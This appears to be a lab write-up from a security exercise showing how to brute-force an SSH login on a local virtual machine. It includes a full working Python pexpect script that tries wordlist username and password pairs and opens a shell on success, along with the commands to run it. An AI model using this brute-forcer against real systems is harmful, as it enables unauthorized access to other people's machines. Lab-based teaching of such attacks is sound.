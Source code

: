 # Phase 1: Setup and Compromise the SSH Service

## 🧠 Task 1.2: Compromise the SSH Service Using a Custom Script

In this task, instead of using Metasploit, we demonstrate how to automate the SSH brute-force attack using a custom Python script. The script utilizes the `pexpect` library to interact with the SSH process directly, handling prompts and testing username/password combinations.

---

## 🔹 Step 1: Execute the Custom Brute-Force Script

We created a script called `SSH_exploitScript.py` that:
- Loads usernames and passwords from two separate files.
- Tries all combinations on the target IP (`192.168.56.102`).
- Reports any successful login attempts.

```python
import pexpect
import sys

def main():
    ip = "192.168.56.102"
    user_file = "/home/kali/Desktop/username"
    pass_file = "/home/kali/Desktop/password"

    try:
        with open(user_file) as uf, open(pass_file) as pf:
            users = [u.strip() for u in uf if u.strip()]
            passwords = [p.strip() for p in pf if p.strip()]
    except Exception as e:
        print(f"[!] Error opening wordlists: {e}")
        sys.exit(1)

    for user in users:
        for password in passwords:
            print(f"[*] Trying {user}:{password}")
            try:
                child = pexpect.spawn(f"ssh {user}@{ip}", timeout=10)
                i = child.expect([
                    r"Are you sure you want to continue connecting \\(yes/no\\)\\?",
                    r"[Pp]assword:",
                    pexpect.TIMEOUT,
                    pexpect.EOF
                ])
                if i == 0:
                    child.sendline("yes")
                    i = child.expect([r"[Pp]assword:", pexpect.TIMEOUT, pexpect.EOF])
                if i == 1:
                    child.sendline(password)
                    j = child.expect([
                        r"Permission denied",
                        r"[#$]\\s",
                        pexpect.TIMEOUT,
                        pexpect.EOF
                    ], timeout=10)

                    if j == 1:
                        print(f"[+] SUCCESS: {user}:{password}")
                        child.interact()
                        return
                    else:
                        print(f"[-] Failed: {user}:{password}")
                else:
                    print(f"[-] No password prompt for {user}@{ip}")
                child.close()
            except pexpect.ExceptionPexpect as e:
                print(f"[!] Exception with {user}:{password} -> {e}")

    print("[-] Brute‑force complete. No valid credentials found.")

if __name__ == "__main__":
    main()
```
---

## 🔹 Step 2: Execute the Custom Script

Before running the script, we need to make it executable. Then, we execute it to start the brute-force attack.

```bash
chmod +x /home/kali/Desktop/SSH_exploitScript.py
python3 /home/kali/Desktop/SSH_exploitScript.py
```

This launches the script which tries each username and password combination from the wordlists.

📸 Screenshot:
![runs](screenshots/entering%20the%20system%20and%20the%20script.png)

---

## 🔹 Step 3: Confirm Successful Access from Script Output

As the script runs, it prints out each username and password pair being tested. When the correct credentials are found (`vagrant:vagrant`), the script successfully logs into the victim machine and provides shell access.

📸 Screenshot:  
![Successful Access](screenshots/entering%20the%20system%20and%20the%20script.png)


